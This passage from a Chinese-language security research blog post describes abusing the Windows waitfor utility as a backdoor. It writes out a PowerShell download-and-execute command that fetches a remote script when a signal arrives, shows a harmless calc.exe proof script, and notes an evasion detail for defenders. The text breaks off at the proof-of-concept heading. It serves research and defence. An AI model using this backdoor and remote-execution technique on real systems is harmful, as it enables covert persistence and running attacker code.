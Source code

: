 **注：**

更多基本介绍可参照微软官方文档，链接如下：

https://technet.microsoft.com/en-us/library/cc731613(v=ws.11).aspx


## 0x03 利用思路
---

根据以上的基本介绍，最直观的认识，waitfor可被当作后门来使用


Daniel Bohannon‏ @danielhbohannon在twitter上分享了他的利用思路：将waitfor接收信号后的操作设置为从远程服务器下载powershell代码并执行

地址如下：

https://twitter.com/danielhbohannon/status/872258924078092288

细节如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-7/2-2.png)

此外，他还提到了一个有趣的技巧：如果将powershell代码设置为延期执行，那么接收信号后，后台将不存在进程waitfor.exe

我验证了这个结论，方法如下：

**开启等待模式：**

cmd：

`waitfor test1 && && powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1')`


**发送信号：**

cmd：

`waitfor /s 127.0.0.1 /si test1`


https://raw.githubusercontent.com/3gstudent/test/master/calc2.ps1的内容如下：

```
Start-Sleep -Seconds 10;
start-process calc.exe;
```

当成功接收信号后，进程waitfor.exe退出

接着执行powershell脚本，等待10秒再启动calc.exe

这10秒内，只存在进程powershell.exe

也就是说，如果把等待时间设置更长，那么再这一段等待时间内不存在进程waitfor.exe，提醒防御者注意这个细节

## 0x04 POC细节
---

如果作为一个后门，那么上面的利用方法还不够成熟
